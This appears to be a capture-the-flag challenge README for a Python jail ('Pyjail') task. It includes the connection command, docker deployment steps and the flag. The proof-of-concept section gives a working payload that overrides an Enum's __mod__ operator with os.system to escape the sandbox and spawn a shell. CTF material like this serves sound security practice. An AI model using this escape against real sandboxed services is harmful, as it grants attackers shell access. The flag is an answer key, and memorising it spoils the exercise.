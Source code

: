 ## Judul Soal
Pyjail

## Deskripsi Soal

> `nc port 22223`

---
## Proof of Concept

- Make use of pre-defined `Enum class` in order to override `__mod__` operator
- Using declared `os` module, simply craft payload like `os.system('sh')`
- Final payload will be like this
    ```
    # os.system(str(bytearray(['s','h'])))
    
    [[A.attr%i for A.__mod__ in [os.system]] for i in [[A.attr%i for A.__mod__ in [str]] for i in [[A.attr%i for A.__mod__ in [bytearray]] for i in [[A.attr%i for A.__mod__ in [chr] for i in [115, 104]]]][0]][0]]
    ```
---

## Catatan deployment

Konfigurasi `docker` ada di directory `server`. Ganti `port` sesuai kebutuhan.


```sh
# Build
$ docker-compose build

# Deploy
$ docker-compose up -d
```

## Flag
JOINTS21{0verride_3num_on_remaind3r_op3rati0n_ftw}